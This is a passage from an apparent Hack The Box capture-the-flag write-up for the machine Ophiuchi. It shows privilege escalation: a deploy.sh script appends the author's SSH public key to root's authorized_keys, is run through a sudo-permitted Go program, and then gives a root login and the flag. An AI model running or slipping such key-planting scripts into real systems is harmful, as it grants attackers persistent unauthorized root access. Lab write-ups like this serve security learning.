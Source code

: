 
I’ll also create `deploy.sh` that will create a `.ssh` directory for the root
user if it doesn’t exist, and then write my public SSH key into
`authorized_keys`:

    
    
    #!/bin/bash
    
    echo "[*] Adding public key to /root/.ssh/authorized_keys"
    mkdir -p /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys
    echo "[+] Done."
    

#### SSH Access

Now I’ll run it:

    
    
    admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Ready to deploy
    [*] Adding public key to /root/.ssh/authorized_keys
    [+] Done.
    

Now I can connect as root:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.227
    ...[snip]...
    root@ophiuchi:~#
    

And grab the flag:

    
    
    root@ophiuchi:~# cat root.txt
    bdd26a85************************
    

[](/2021/07/03/htb-ophiuchi.html)

